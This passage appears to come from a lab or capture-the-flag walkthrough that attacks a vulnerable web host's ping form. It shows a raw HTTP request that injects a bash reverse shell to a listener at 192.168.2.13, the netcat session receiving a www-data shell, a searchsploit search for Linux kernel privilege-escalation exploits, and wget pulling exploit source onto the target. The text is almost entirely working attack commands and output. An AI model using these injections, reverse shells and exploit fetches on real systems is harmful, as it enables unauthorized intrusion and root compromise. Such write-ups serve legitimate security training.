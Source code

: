 
```java
POST /pingit.php HTTP/1.1
Host: 192.168.2.22
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.22/index.php
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

ip=8.8.8.8;
bash -i >%26%20 /dev/tcp/192.168.2.13/1234 0>%26%201 &submit=submit
```
![](https://i.imgur.com/rAEZ7S9.png)


```java
[13:48:34] root:/ # nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.2.13] from kali [192.168.2.13] 56940
Linux kali 4.15.0-kali3-amd64 #1 SMP Debian 4.15.17-1kali1 (2018-04-25) x86_64 GNU/Linux
 14:25:55 up  6:00,  1 user,  load average: 0.32, 0.20, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     :1       :1               Sat10   ?xdm?   4:09   0.00s /usr/lib/gdm3/gdm-x-session --run-script gnome-session
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
```
![](https://i.imgur.com/F2TBTCa.png)

### 4. Privilege escalation 
* Try to find linux kernel exploit to privilege escalation


```java
[16:05:33] root:html # searchsploit linux kernel 2.6 | grep -v 'dos' | grep 'Cent'
Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_sendpage()' Local Privilege Escalation     | exploits/linux/local/9545.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Escalation (5)            | exploits/linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)             | exploits/linux_x86/local/9542.c
Linux Kernel 2.6.32 < 3.x (CentOS 5/6) - 'PERF_EVENTS' Local Privilege Escalation (1)                                                            | exploits/linux/local/25444.c
[16:05:40] root:html # cp /usr/share/exploitdb/exploits/linux_x86/local/9542.c .
```

```java
bash-3.00$ lsb_release -a 
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$ wget http://192.168.2.13/9542.c
--00:56:47--  http://192.168.2.13/9542.c
           => `9542.c'
Connecting to 192.168.2.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/x-csrc]

```